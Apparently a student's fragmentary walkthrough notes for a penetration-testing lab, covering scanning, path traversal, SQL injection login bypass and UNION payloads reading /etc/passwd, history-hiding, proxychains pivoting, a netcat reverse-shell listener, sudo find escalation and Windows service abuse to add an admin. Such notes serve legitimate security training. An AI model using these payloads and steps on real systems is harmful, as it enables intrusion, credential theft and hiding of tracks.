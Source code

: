 # Begin intial nmap scans
nmap -Pn ##############
#################
Look at web pages
Look at Source code
open up all pages
naviagte to file locations found in the scripts
Home button/PDFs

FIle to read, you see that
myfile=../../../../../../../
- cat the file you can read an explore what you can cat to et information
- going to the unserame and login 
- username:Ford' or 1='1 password:Ford' or 1='1
- "inspect the source" then change the method from POST to GET
- once get crednetials, open bash shell unset HISTFILE
  - check hosts file cat /etc/hosts
  - ping -c1 BestWebApp
  - ## NEW TARGET Found
- Now go right to 192.168.28.181 website, boom
- now proxychains nmap -Pn 192.168.28.181 - see ports 22/80
- rerun your proxychains nmap scripts on this machines
- BOOM WEBPAGE, INSPECT SOURCE code
- submit and look at tall of the php in the searhc banner
- product=7 or 1=1ScaryTerry
- LOOK INTO EACH SELECTION FIELD
  - siteuser
# AARON has not been found that
username, name,user_id from siteusers.users
http://192.168.28.181/pick.php?product=7 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns;
http://192.168.28.181/pick.php?product=7 UNION SELECT 1,2,3 FROM information_schema.columns;

@@version,database(),load_file("/etc/passwd")
## Credentials from 2ne box acquired, now move on
go back to box, use your for loop to find more addresses
create a tunnel now
echo $0
echo $shell
/hom /tmp /etc /cron*uname -A
now ellevater 
1. sudo -l 
   1. gtfo bins - type in fin (
   2. sudo find . -exec /bin/sh \; -quitshell sui sudo)

ls | grep cron
cat crontab
look at non-standard crontabs
change direction to directory of the scripts being ran in the Older
- dig through the libraries
- netstat -natup, see if its listening
- ps -elf and look through the process list, 
  - cron service is running the service
  - get the hostname so you known
After you rerun the python script on the same network to see the new addresses
## NEW ips
now run your nmap scans
nmap -sV -Pn 192.168.28.179 --script banner -p 22,3389
server 9999 is your vuln server
- grab your callback to the call server and point it to the ip address of the vuln server
- nc listneer on oips nc -lvnp 4444
- then from ops proxychains
- # last box
- close tunnels so you can RDP 
- xfreerdp /v:localhost:2222 /u:Lroth /p:anotherpassword4THEages /size:1920x1080 +clipboard
- ## Go to windows box
- change directory to hidden and show exntensions on windows
  - user home, system32
  - persistance keys
  - check all the keys
- ## time to elevate on windows
- look at services and scheduled tasks
- task scheduler
- Sort your servuces
  - sort by descpoolription
  - clip and open up the properrties
  - go to the directory, look good, now looking at permisions.
    - creat file, try and rename program, unable to execute from inside
    - move to each program or executbale until you find one that you can exploit
    - go to the service and in services see what the servuice is running as,
      - or putty its running ansd able to be exploited
      - drill down into the directory, yes you can put thigns int there
      - take the file and compile it, throw it into folde to create a user account with admin priviledges